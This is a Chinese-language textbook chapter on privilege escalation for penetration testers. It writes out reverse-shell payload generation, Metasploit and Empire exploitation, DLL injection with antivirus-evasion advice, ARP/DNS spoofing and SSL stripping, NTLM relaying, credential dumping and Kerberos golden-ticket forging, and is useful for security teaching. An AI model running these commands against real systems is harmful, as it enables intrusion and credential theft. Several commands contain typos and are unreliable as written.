

# 第十二章：权限提升

权限提升是指从较低的访问权限提升到获得管理员权限、系统权限，甚至更高访问权限的过程。它允许渗透测试人员完全控制系统的所有操作。更重要的是，获得某些访问权限将使测试人员能够控制网络中的所有系统。随着漏洞变得越来越难以发现和利用，许多研究已经专注于权限提升，作为确保渗透测试成功的手段。

在本章中，我们将讨论以下内容：

+   常见的权限提升方法

+   本地系统权限提升

+   DLL 注入

+   通过嗅探和权限提升进行凭证收集

+   Kerberos 上的金票攻击

+   Active Directory 访问权限

# 常见权限提升方法概述

一切从方法论开始，提供了一种问题解决的方法。在本节中，我们将介绍攻击者在红队演习或渗透测试中使用的常见权限提升方法。

*图 12.1* 描述了可以使用的方法论：


图 12.1：典型的用户权限层级

根据网络攻击链的方法论，为了达到目标，采取的行动包括提升权限以保持对目标环境的持续性访问。

以下是目标系统中可能找到的用户账户类型：

+   **普通用户**：通过在执行后门的用户级别运行后门获得的典型访问权限。这些是系统（Windows 或 Unix）的普通用户，可以是本地用户或具有有限系统访问权限的域用户，执行的任务仅限于他们被允许执行的范围。

+   **本地管理员**：本地管理员是具有运行系统配置更改权限的系统账户持有者。

+   **委派管理员**：委派管理员是具有管理员权限的本地用户账户。例如，账户操作员或备份操作员是 Active Directory 环境中常用于委派管理任务的典型组。

+   **域管理员**：域管理员是能够管理其所在域的用户。

+   **企业管理员**：企业管理员是拥有维护整个 Active Directory 森林权限的账户。

+   **架构管理员**：架构管理员是能够配置森林架构的用户。架构管理员之所以不被视为最具特权的账户，是因为攻击者无法将用户添加到其他组中：这将限制修改 Active Directory 森林的访问权限。

# 从域用户提升到系统管理员

在大多数情况下，执行控制台级攻击或社交工程攻击的攻击者可能会获得一个普通域用户的访问权限，而该用户并不是本地管理员，这使他们只能访问有限的权限级别。可以绕过这一点，并利用该漏洞在受害者机器上获得系统级访问权限，而不必成为本地管理员。我们将利用 Windows 2008 Metasploitable3 执行本地特权提升攻击。以下是执行该攻击的步骤：

1.  使用`msfvenom`创建一个带有效载荷的可执行文件，运行`sudo msfvenom –p windows/meterpreter/reverse_tcp LHOST=<Kali IP> LPORT=<Port No> -f exe –o Output.exe.`来自 Kali 终端。

1.  使用在*第一章*中创建的`normaluser`用户账户登录 Metasploitable3，并通过文件共享或简单运行 Python HTTP 服务器（`python3 -m http.server <custom port number>`）将文件上传到目标。

1.  一旦文件上传到目标，作为普通用户执行该文件应提供反向 shell 到 Kali Linux。在执行有效载荷之前，请确保先启动 Metasploit 监听器。

1.  当攻击者初步使用普通用户身份访问系统并尝试运行系统级命令时，您将收到`access denied`或`no privilege available to run the commands on the target system`的响应。

1.  这可以通过从 Meterpreter 控制台运行`getsystem`命令来验证，如*图 12.2*所示：

    图 12.2：Meterpreter shell 运行 getsystem 命令

1.  我们将探索存在于旧版本 Windows（如 Windows 2008/7）中的本地漏洞。我们将使用最新的本地漏洞利用工具`ms18_8120_win32k_privesc`，该工具利用 Win32k 组件的漏洞，该组件未正确处理内存中的对象属性。您可以将现有的 Meterpreter 会话移到后台，以便通过以下步骤利用后利用模块：

    ```
    meterpreter > background 
    [*] Backgrounding session 1...
    msf6 exploit(multi/handler) > use exploit/windows/local/ms18_8120_win32k_privesc 
    [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
    msf6 exploit(windows/local/ms18_8120_win32k_privesc) > set session 1
    session => 1
    msf6 exploit(windows/local/ms18_8120_win32k_privesc) > exploit 
    ```

1.  成功利用该漏洞应该会打开另一个具有高权限级别的 shell，如*图 12.3*所示：

    图 12.3：在 Metasploitable3 上利用本地 Windows 特权提升漏洞

1.  现在，新的会话必须为您提供以 NT AUTHORITY\SYSTEM 身份访问系统的权限，这将使攻击者能够创建一个本地管理员级别的用户，如*图 12.4*所示，并通过从 Meterpreter shell 中使用`hashdump`命令提取哈希转储或启用 RDP 并使用新管理员账户登录，从而横向移动：

    图 12.4：成功以管理员权限访问 Metasploitable3

# 本地系统提权

在 Windows 10 中，我们可以利用一种不同的技术来绕过现有的权限。一项此攻击的缺点是，为了获得系统级访问权限，受影响的本地用户必须是本地管理员组的成员。

攻击者只能在用户的上下文中运行 Meterpreter shell。为了绕过这个限制，我们可以利用多个后渗透模块。我们将发送 `background` 命令到我们的 Meterpreter shell，以运行后渗透模块。在本例中，我们将利用 `bypassuac_fodhelper` 后渗透模块，如 *图 12.5* 所示：

```
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/bypassuac_fodhelper
msf exploit(multi/handler) > set session 1
msf exploit(multi/handler) > exploit 
```

一旦我们创建了后门 DLL 文件，就可以利用现有的 Meterpreter 会话来运行 PowerShell。攻击者可以通过在终端中运行以下命令来创建一个 PowerShell 负载：

图 12.5：利用 Windows 10 本地权限提升漏洞

Meterpreter shell 中的 `bypassuac_fodhelper` 模块将利用现有会话提供更高权限的 Meterpreter shell，如 *图 12.6* 所示：


图 12.6：成功以 SYSTEM 权限访问 Windows 10

我们已经成功运行了本地漏洞，从低权限用户提升到 SYSTEM 级别的权限。在下一节中，我们将利用本地管理员权限的用户进行提升，最终将其提升为 SYSTEM 级别的用户。

# 从管理员权限提升到系统权限

管理员权限允许攻击者创建和管理账户，并访问系统上大多数数据。然而，某些复杂的功能要求请求者具有系统级别的访问权限。有几种方法可以继续提升到系统级别，最简单的方式是运行 `PsExec` 来获取系统级访问权限，方法是将 `PsExec` 上传到目标文件夹，并作为本地管理员运行以下命令：

```
PsExec -s -i -d cmd.exe 
```

此命令应以系统用户身份打开另一个命令提示符，如 *图 12.7* 所示：


图 12.7：使用 Psexec 从本地管理员提升到 SYSTEM

## DLL 注入

**DLL**（**动态链接库**）注入是另一种简单的技术，攻击者利用它在另一个进程的地址空间中运行远程代码。该进程必须以超出权限的方式运行，这些权限随后可以用于通过 DLL 文件提升权限。

Metasploit 提供了一个特定的模块，可以用于执行 DLL 注入。攻击者需要做的就是链接现有的 Meterpreter 会话，并指定进程的 `PID` 和 DLL 的路径。我们将探索另一种方式，并利用 Empire 工具中的 PowerShell DLL 注入模块。你可以通过 `msfvenom` 创建一个带有负载的 DLL：

```
sudo msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<Kali IP> lport=443 -f dll -o /home/kali/injectmex64.dll 
```


```
sudo powershell-empire server 
sudo powershell-empire client (in a new tab)
uselistener http
set Host <Your IP>
set Port <port number>
execute
usestager multi/launcher
set Listener http
execute 
```

这应该为我们提供可以在目标上执行的 PowerShell 负载。在本例中，我们将以 Windows 10 为例，直接从 Meterpreter shell 运行 PowerShell 脚本，如 *图 12.8* 所示：


图 12.8：从 Meterpreter 执行 Empire 代理负载

成功执行 PowerShell 后，应该会向 Empire 控制台报告一个代理。攻击者可以通过运行 `agents` 命令并在 Empire 中使用代理名称通过 `interact` 命令与代理进行交互来验证这一点，如 *图 12.9* 所示：


图 12.9：成功的代理向 Empire 客户端控制台报告

测试人员现在可以将我们创建的 DLL 文件上传到目标系统；这将上传到执行 PowerShell 脚本的文件夹中：


图 12.10：将恶意 DLL 上传到目标

在 PowerShell Empire 终端中运行 `ps` 命令，应该会列出目标上当前正在运行的进程。选择正确的进程（该进程以 `NT AUTHORITY/SYSTEM` 运行），然后在 PowerShell Empire 终端中执行以下命令：

```
(Empire: 2A54TX1L) > ps
(Empire: 2A54TX1L) > upload /root/chap12/injectme.dll
(Empire: 2A54TX1L) > usemodule code_execution/invoke_dllinjection
(Empire: powershell/code_execution/invoke_dllinjection) > set ProcessID 4060
(Empire: powershell/code_execution/invoke_dllinjection) > set Dll C:\<location>\injectmex64.dll
(Empire: powershell/code_execution/invoke_dllinjection) > execute 
```

如果测试人员在运行 `ps` 命令时无法看到系统进程所有者，则应以本地管理员身份运行 Empire PowerShell 有效负载。

大多数防病毒/反恶意软件/EDR 系统都能轻松检测到此方法；然而，建议对 DLL 的有效负载进行多次编码。

一旦 DLL 文件注入到正在运行的进程中，攻击者应该能够看到一个以特权用户身份报告回来的代理，如 *图 12.11* 所示：


图 12.11：成功将恶意 DLL 上传到目标

一旦成功调用 DLL，有效负载必须执行，并且必须以系统级别用户身份打开反向 Shell，如 *图 12.12* 所示：


图 12.12：通过 PowerShell Empire 成功的 DLL 注入进行的反向 Shell

我们已经成功地进行了 DLL 注入，以获得一个具有高度特权的 SYSTEM 账户。在下一节中，我们将探索另一种收集凭据并提升特权的方法。

# 凭据收集和特权提升攻击

凭据收集是识别可以用来实现渗透测试/红队演练目标的用户名、密码和哈希值的过程。在本节中，我们将演示攻击者在 Kali Linux 中通常使用的三种不同的凭据收集机制。

## 密码嗅探器

密码嗅探器是一组通常通过发现、欺骗、嗅探流量和代理方式执行中间人攻击的工具/脚本。根据我们之前的经验，我们注意到大多数组织内部没有使用 SSL；Wireshark 显示了多个用户名和密码。

在本节中，我们将探索 `bettercap` 来捕获网络上的 SSL 流量，以便捕获网络用户的凭据。`bettercap` 类似于上一代的 `ettercap` 命令，增加了网络级伪造和嗅探的能力。可以通过在终端中运行 `sudo apt install bettercap` 来将其下载到 Kali Linux。`bettercap` 在 2018 到 2020 年间经过了大量的开发，以使其兼容用户界面并启用了 caplet 使用。Caplet 只是 `.cap` 文件，可以通过脚本在交互式会话中实现目标；可以通过在终端中运行简单命令 `sudo apt install bettercap-caplets` 来安装或更新它。

此工具可用于对给定的内部网络进行更有效的中间人攻击。在此示例中，我们将使用一个 caplet，脚本如下，通过 `bettercap` shell 执行 ARP 和 DNS 欺骗来捕获密码：

```
net.sniff on
" set http.proxy.sslstrip true
" http.proxy on
" set dns.spoof.domains www.office.com,login.microsoftonline.com,testfire.net
" set dns.spoof.all true
" dns.spoof on
" arp.spoof on 
```

`bettercap` 必须能够顺利嗅探目标网络上的所有流量，如*图 12.13*所展示：


图 12.13：使用 bettercap 捕获 HTTP 协议的明文密码

为了剥离 SSL 流量，我们可以利用 `https.proxy` 模块，如下所示：

```
" net.sniff on
" set https.proxy.sslstrip true
" https.proxy on
" arp.spoof on
" hstshijack/hstshijack 
```

`hstshijack` caplet 将使攻击者能够查看当 Web 服务器将 HTTP 流量重定向到 HTTPS 时的请求，攻击者可以利用重定向迫使 Web 服务器响应 HTTP。`bettercap` 中的前述命令必须使攻击者能够查看 HTTPS 流量，如*图 12.14*所示：


图 12.14：使用 Bettercap 中的 sslstrip caplet 嗅探所有加密的 URL

渗透测试人员在使用 `bettercap` 时应小心，因为运行 `arp spoof on` 时会暂停 Kali Linux 所连接的整个网络。

## Responder

Responder 是 Kali Linux 中内置的工具，用于**链路-本地多播名称解析**（**LLMNR**）和**NetBIOS 名称服务**（**NBT-NS**），它根据文件服务器请求响应特定的 NetBIOS 查询。通过在终端中运行 `responder -I eth0 (您网络的以太网适配器名称) -h` 可以启动此工具，如*图 12.15*所示：


图 12.15：Responder 工具的主菜单

Responder 具备以下功能：

+   检查本地主机文件，看看是否包含任何特定的 DNS 条目

+   自动执行选定网络上的**DNS**查询

+   使用 **LLMNR/NBT-NS** 向选定网络发送广播消息

同一网络上的攻击者可以通过在 Kali 终端中运行 `sudo responder –I eth0 –wF –v` 启动网络上的 Responder，如*图 12.16*所示。Responder 能够自行设置多种服务器类型：


图 12.16：在本地网络上运行 Responder 执行中间人攻击

在这个例子中，假设我们如果设备尝试访问文件服务器 `\\<FILESERVER>\\`，我们就使整个网络中毒。这样，访问请求就会被重定向到 Responder 托管的 SMB 服务器，以捕获 NTLM 用户名和哈希值。

如果受害者尝试访问 Kali Linux IP 或已中毒并重定向到 Responder 的主机名，受害者会看到 *图 12.7* 中显示的弹窗，且 Responder 会捕获提交的用户名和 NTLM 哈希值：


图 12.17：Responder 创建的弹窗，用于捕获 NTLM 用户名和密码哈希值

在一次红队活动中，我们注意到那些成功识别出恶意设备的安全团队，随后通过输入域管理员凭证访问了该恶意设备的 SMB。现在，攻击者使用 Responder 暂停结果，其中包括 NTLM 用户名和哈希值，正如 *图 12.18* 所示：


图 12.18：Responder 使网络中毒并捕获用户名和 NTLMv2 哈希值

所有日志文件将保存在 `/usr/share/responder/logs/` 目录下，日志文件名为 `SMB-NTLMv2-SSP-<IP>.txt`。然后可以通过运行 `john SMBv2-NTLMv2-SSP-<IP>.txt` 将其直接传递给 John the Ripper 进行离线破解，或者通过运行 `hashcat –m 5600 SMB-NTLVMv2-SSP-<IP>.txt <wordlist>` 来使用 `hashcat` 破解捕获的 NTLM 哈希。如果字典中包含了密码，那么它就会被破解，正如*图 12.19*所示：


图 12.19：成功破解用户的 NTLMv2 SMB 密码

## 在 TLS 上执行 MiTM 攻击以攻击 LDAP

在本节中，我们将探讨如何使用隐蔽方法获取给定端点的本地管理员凭证。Microsoft Kerberos 具有一个委派功能，允许任何应用程序重复使用用户凭证来访问托管在不同服务器上的资源。当 Windows 服务器刚安装并且使用默认配置时，这个 Kerberos 委派功能可能会被利用。如果网络中有 LLMNR、NBT-NS 且强制执行 LDAP 签名，并且有 **LDAP**（**轻量级目录访问协议**）的 **TLS**（**传输层安全性**）通道绑定，那么这个技术是可行的。

在这种情况下，渗透测试人员可以访问内部网络并找到一个连接到同一网络的 Windows 10 设备。作为第一步，测试人员可以通过在 IP 范围内运行 `crackmapexec` 来识别主机名或域名。但这样做会比较“嘈杂”，可能会让管理员警觉到你正在尝试匿名地认证所有网络系统。

一旦确定了域名和目标设备，我们通过将`nameserver IP`添加到`/etc/resolv.conf`中，将内部 DNS IP 添加到我们的 Kali Linux 中，以确保我们能够访问目标网络中的本地主机名。从 Vista 及以上版本开始，Windows 默认启用 IPv6，设备启动时将开始寻找 DHCP 和 WPAD 的配置。

我们将利用`mitm6`。这个工具未预装在 Kali Linux 中。要安装该工具，请运行`sudo pip3 install mitm6`，然后运行`sudo mitm6 –hw <Windows 10 机器名称> -d <域名> --ignore-nofqdn`，这应该将 Kali Linux 的 IPv6 DNS 列入白名单，并准备好作为默认网关提供 Kali Linux 的 IPv6 地址的一部分：


图 12.20：使用 mitm6 执行中间人攻击

一旦`mitm6`启动并运行，网络上的受害者设备现在应该使用所有可用目标上的默认网关，而不是 Kali Linux IPv6 IP 地址，如*图 12.21*所示：


图 12.21：目标机器添加新的 IPv6 地址到网关

然而，为了执行下一步操作，建议重新启动受害者设备。为了捕获凭据，我们将利用 Impacket，这是一个主要用于操作网络协议的 Python 开源模块集合。它默认安装在 Kali Linux 中。特别是为了执行这种攻击，我们将使用`impacket-ntlmrelayx`在目标上运行以下命令来托管 LDAPS 和 WPAD 服务，如*图 12.22*所示：

```
sudo impact-ntlmrelayx –t ldaps://domaincontrollerIP –delegate-access –no-smb-server –wh attacker-wpad 
```


图 12.22：运行 impacket-ntlmrelay 目标 LDAP 和 WPAD 服务

当`ntlmrelayx`成功捕获凭据时，您应该在同一窗口中看到确认信息，如*图 12.23*所示：


图 12.23：成功将 NTLM 哈希中继到 LDAP 服务器

`ntlmrelayx`不仅认证到真正的 LDAPS 服务，而且还具有在运行命令的同一文件夹中保存的所有域用户、域计算机和域信任的详细信息的能力。

此外，NTLMrelayx 应该通过中继委托创建一个新的计算机账户，充当尝试重用用户凭据的前端应用程序，并且它将修改 Windows 10 上的`msDS-AllowedToActOnBehalfOfOtherIdentity`，允许新创建的计算机模拟本地计算机上的任何用户。

攻击者应该能够看到以下确认信息：



图 12.24：成功将计算机添加到域

根据设计，在 Active Directory 中，用户可以创建额外的机器账户。下一步是请求服务票据，以访问模拟域管理员权限的 Windows 10。为此，我们需要调用一个**服务主体名称**（**SPN**），它是服务实例的唯一标识符。SPN 被 Kerberos 身份验证用来将服务实例与服务登录账户关联。攻击者可以利用从`lootdir`生成的输出，获取可用的 SPN。我们现在将利用`impacket-getST` Python 脚本模拟具有高度权限的管理员账户到域控制器。系统会提示你输入密码，最后捕获服务票据，并将其保存为`.ccache`格式，保存在运行命令的同一文件夹中。

```
sudo impact-getST –spn SPNname/TargetMachinename Domainname/NewComputerCreatedbyNTLMrelayx –impersonate Administrator –dc-ip <Domain controller IP > 
```


图 12.25：为特定 SPN 创建服务票据，模拟高权限用户

使用服务票据，我们需要通过在 Kali Linux 终端中运行`export KRB5CCNAME=/Home/kali/Administrator.ccache`将`KRB5CCNAME`票据导出到环境变量中。Impacket 模块将直接从环境变量中获取这些值。现在，我们已经准备好使用从域控制器生成的服务票据对目标机器进行身份验证，并以高权限用户身份运行。

我们运行`sudo impacket-wmiexec -k –no-pass –debug target-Machine-DNS-Name`。成功的利用将显示以下屏幕：


图 12.26：在目标机器上执行 WMIC

此外，同样的操作还应提供我们一个有限的 shell，但它是以创建服务票据的用户身份运行的。攻击者可以利用这个 shell 来运行 PowerShell Empire 脚本，以再次完成交互式会话：


图 12.27：以高权限用户身份在目标机器上获得有限 shell

我们还可以提取目标机器上的本地哈希值。这可以通过运行`sudo impacket-secretsdump –k –no-pass –debug <Target Machine name>`来实现，它应该会提供我们本地哈希值，如*图 12.28*所示：


图 12.28：从目标机器上转储所有本地哈希值

渗透测试人员通常忘记的一件事是验证机器哈希值。大多数时候，这应该会提供大量信息，例如目标设备上的共享驱动器。这可以通过在目标 IP 上运行`crackmapexec smb`并使用从`impacket-secretsdump`获得的哈希值来验证：


图 12.29：使用 crackmapexec 验证机器哈希值

# 在 Active Directory 中提升访问权限

我们刚刚探讨了如何在系统中提升权限，以及如何通过网络获取凭据。现在让我们利用迄今为止收集的所有细节，然后我们应该能够使用网络攻击链方法实现渗透测试的目标。在本节中，我们将把普通域用户的权限提升为域管理员权限。

我们识别连接到域的系统，并利用我们的 Empire PowerShell 工具提升到域控制器，并提取所有用户名和密码哈希：


图 12.30：PowerShell Empire 中的当前报告代理

你可以使用`situational_awareness`模块`get_domain_controller`获取更多关于域的信息：

```
usemodule situational_awareness/network/powerview/get_domain_controller 
```


图 12.31：域控制器详细信息的输出

要识别谁登录到域，攻击者可以使用`get_loggedon`模块，具体如下：

```
usemodule situational_awareness/network/powerview/get_loggedOn
execute 
```

所有登录到域控制器的用户都将可见，如*图 12.32*所示：


图 12.32：域控制器上的登录详细信息

通过使用`getsystem`模块在本地提升权限，如*图 12.33*所示：


图 12.33：Empire 模块成功获取 SYSTEM 权限

提升权限方法的下一步是将权限提升到域管理员级别。一旦你使用`mimikatz`提取了所有用户的密码和哈希，就不再需要这一操作，如以下截图所示。

你可以使用哈希或明文测试密码，通过 Metasploit 或 CrackMapExec 中的`PsExec`模块进行身份验证：


图 12.34：PowerShell Empire 输出的 Mimikatz 结果

现在，攻击者可以通过在 Empire 界面中输入`credentials`来查看 Empire 工具凭据存储中的所有凭据，如*图 12.35*所示：


图 12.35：存储在 PowerShell Empire 中的凭据

Dump Active Directory 中所有用户的最快方法是使用`crackmapexec smb`并传递哈希值，如*图 12.36*所示：


图 12.36：使用 CrackMapExec 提取 NTDS

如果攻击者选择手动操作，下一步是利用 CrackMapExec 验证哈希与域控制器的一致性，并运行 PowerShell Empire 代理有效载荷，如*图 12.37*所示：


图 12.37：使用 crackmapexec 在域控制器上执行 PowerShell 有效载荷

这将调用域控制器，使其成为监听器的代理。一旦代理报告返回到 Empire 工具，我们可以通过运行 `interact <Name>` 将代理切换到新报告的计算机。然后，使用 `management/enable_rdp` 模块将启用 **远程桌面协议**（**RDP**）在域控制器上。

我们必须定位整个 SECURITY 和 SYSTEM 注册表，并且必须使用 `ntds.dit`。这可以通过使用 `ntdsutil` 的单个 PowerShell 命令来执行：

```
ntdsutil "ac I ntds" "ifm" "create full c:\temp" q q 
```

上述命令的作用是什么？

`ntdsutil` 是一个内置于 Windows Server 系列中的命令行工具，用于管理 Active Directory 域服务。

这个工具，**从介质安装**（**IFM**），帮助我们将所有 Active Directory 数据库和注册表设置从域控制器下载到平面文件中，如 *图 12.38* 所示。最后，我们可以在 `c:\temp` 目录中看到这两个文件夹，分别是 `Active Directory` 和 `registry`：


图 12.38：手动创建 NTDS 快照

现在，注册表和系统 hive 已经在 `c:\temp` 文件夹中创建，可以用于通过 `secretsdump.py` 进行离线密码破解。

`secretsdump.py` 是 Kali Linux 中由 Impacket 提供的内置脚本。为了查看明文和哈希密码，攻击者可以在终端运行 `secretsdump.py -system <systemregistry> -security <securityregistry> -ntds <ntds 位置> "LOCAL"`。所有 Active Directory 用户名及其密码哈希必须对攻击者可见。

类似地，如果目标是仅提取域哈希转储，攻击者可以利用运行在域控制器上的代理，运行 `credentials/Mimikatz/dcysnc_hashdump` 模块，这将直接在域控制器上运行，仅提取所有域用户的用户名和密码哈希，如 *图 12.39* 所示：


图 12.39：DCSync Hashdump 模块的输出

# 妥协 Kerberos – 金票攻击

另一组更复杂（且更近期）的攻击是滥用 Microsoft Kerberos 在 Active Directory 环境中的漏洞。成功的攻击会导致攻击者妥协域控制器，并使用 Kerberos 实现将特权提升到企业管理员和架构管理员级别。

以下是在基于 Kerberos 的环境中，用户使用用户名和密码登录时的典型步骤：

1.  用户的密码被转换成带有时间戳的 NTLM 哈希值，然后发送到 **密钥分发中心**（**KDC**）。

1.  域控制器检查用户信息并创建 **票证授予票证**（**TGT**）。

1.  这个 Kerberos TGT 只能被 Kerberos 服务（KRBTGT）访问。

1.  然后，TGT 被从用户传递给域控制器，向其请求 **票证授予服务**（**TGS**）票证。

1.  域控制器验证**特权账户证书**（**PAC**）。如果允许打开票证，则 TGT 将有效地复制以创建 TGS。

1.  最终，用户获得访问服务的权限。

攻击者可以根据可用的密码哈希值操纵这些 Kerberos 票证。例如，如果你已经入侵了连接到域的系统并提取了本地用户凭据和密码哈希值，下一步是识别 KRBTGT 密码哈希值以生成金票；这将使取证和事件响应团队更难识别攻击源。

在本节中，我们将探讨生成金票的简便性。我们可以通过利用 Empire 工具中的漏洞，仅一步即可实现，前提是我们拥有一台连接到域的计算机，并且该计算机上的普通域用户具有本地管理员权限。

所有活动目录控制器负责处理 Kerberos 票证请求，然后使用这些票证对域用户进行身份验证。`krbtgt`用户账户用于加密和签名在给定域内生成的所有 Kerberos 票证，然后域控制器使用该账户的密码解密 Kerberos 票证进行一系列验证。渗透测试人员必须记住，大多数服务账户，包括`krbtgt`，不受密码过期或密码更改的限制，并且账户名通常保持不变。

我们将使用具有本地管理员访问权限的低权限域用户来生成令牌，将哈希值传递给域控制器，并为指定账户生成哈希值。可以通过以下步骤实现：

1.  通过运行`credentials`命令列出在 Empire 工具中收集的所有凭据；如果我们没有看到`krbtgt`，那么我们将利用在域控制器上运行的代理来获取哈希值。在这种情况下，我们将在域控制器上使用`exchangeadmin`作为值运行 CrackMapExec 并与代理进行交互。

1.  下一步是识别一个以特权级别运行的进程，窃取令牌，并使用 Empire 工具中的`steal_token PID`命令执行进一步的命令，如*图 12.40*所示：

    图 12.40：窃取高权限用户的会话令牌

1.  现在我们可以从运行`mastering.kali.fourthedition`域的域控制器上以管理员身份运行。输出应包括域 SID 和必要的密码哈希值：

    ```
    usemodule credentials/Mimikatz/dcysnc
    set domain mastering.kali.fourthedition
    set username krbtgt
    run 
    ```

    

    图 12.41：DCSync 输出并成功捕获 krbtgt 的密码哈希

1.  到目前为止，如果域控制器存在漏洞，我们应该已经窃取了`krbtgt`用户账户的密码哈希。攻击者应该在所有域控制器上执行相同的操作，如果 DCSync 失败，他们应该能够看到新凭证被添加到现有列表中，用户名为`krbtgt`：

    图 12.42：在 PowerShell Empire 中验证 krbtgt 的哈希值

1.  最后，当我们获取 Kerberos 哈希时，可以将该哈希传递给域控制器，以颁发金票。现在，我们可以利用低权限用户`normaluser`，并使用正确的凭证 ID 和任何用户名运行`golden_ticket`模块。当模块成功执行时，您应该能够看到如下截图中的消息，并可以使用任何用户运行金票模块：

    ```
    usemodule credentials/mimikatz/golden_ticket
    set user Cred ID
    set user IDONTEXIST
    execute 
    ```

1.  成功执行模块后，我们应该能看到*图 12.43*中显示的详细信息：

    图 12.43：使用 krbtgt 和无效用户创建金票

1.  攻击者可以使用`klist`验证生成的 Kerberos 票证是否在会话中，如*图 12.44*所示：

    图 12.44：在目标机器上验证缓存的票证

1.  通过金票攻击，攻击者应该能够访问域控制器上的任何文件，或使用此金票访问域内任何系统，并提取数据：

    图 12.45：金票攻击成功利用

如果攻击者在目标域控制器上有远程桌面会话，也可以通过在受感染的系统上运行以下命令来实现这一点，命令如下：

```
kerberoserberos::golden /admin:Administrator /domain:Mastering.kali.fourthedition /id:ACCOUNTID /sid:DOMAINSID /krbtgt:KRBTGTPASSWORDHASH /ptt 
```

通过运行此操作，攻击者可以以任何用户身份进行身份验证，甚至是不存在的用户，包括企业管理员和架构管理员级别。在同一张票证内，攻击者还可以使用 Mimikatz 执行 DCSync，如*图 12.46*所示：

```
Lsadump::dcsync /domain:mastering.kali.fourthedition /all /csv 
```


图 12.46：使用 Mimikatz 对低权限用户执行 DCSync 操作，利用金票

另一个类似的攻击是 Kerberos 银票攻击，这个攻击并不常被讨论。此攻击再次伪造 TGS，但它是由服务帐户签名的；这意味着银票攻击仅限于指向服务器上的某个服务。可以利用 PowerShell Empire 工具，使用`credentials/mimikatz/silver_ticket`模块，并提供`rc4/NTLM`哈希值来利用相同的漏洞。

# 总结

本章中，我们研究了提升权限的方法，并探讨了可用来实现渗透测试目标的不同方法和工具。

我们首先通过利用 Windows Server 2008 上的`ms18_8120_win32k_privesc`进行常见的系统级特权提升，并在 Windows 10 机器上使用`bypassuac_fodhelper`。我们专注于利用 Meterpreter 获取系统级控制，之后详细研究了如何使用 Empire 工具；然后，我们通过在网络上使用密码嗅探器来获取凭证。我们还利用 Responder 执行了 NTLM 中继攻击以获得远程系统访问权限，并使用 Responder 捕获了网络中不同系统的密码，这些系统使用了 SMB 协议。

我们通过一种结构化的方法完全攻破了一个 Active Directory。最后，我们通过使用 PowerShell Empire 和一个被攻破的 Kerberos 账户，利用 Empire 工具执行了黄金票证攻击，进一步利用了 Active Directory 中的访问权限。

在下一章（*第十三章*，*命令与控制*）中，我们将学习攻击者如何使用不同的技术根据网络杀伤链方法论来保持对被攻破系统的访问。我们还将深入探讨如何从内部系统向外部系统窃取数据。
